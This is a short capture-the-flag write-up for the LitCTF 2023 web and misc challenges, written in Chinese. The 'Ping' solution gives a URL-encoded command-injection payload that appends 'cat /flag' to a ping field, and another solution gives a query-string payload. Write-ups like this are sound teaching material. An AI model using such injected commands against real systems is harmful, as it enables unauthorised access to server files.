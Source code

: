 # LitCTF 2023

## Web

### 我Flag呢？

查看html源码

\

### Ping

Brupsuite 一把梭

Payload `command=127.0.0.1%3bcat%20%2fflag&ping=Ping`

### Follow me and hack me

Brupsuite 一把梭

Payload `/?CTF=Lit2023 Challenge=i'm_c0m1ng`

## Misc

### 喜欢我的压缩包么 (初级)

<figure><img src=".gitbook/assets/喜欢我压缩包么-1.png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/喜欢我压缩包么-2.png" alt=""><figcaption></figcaption></figure>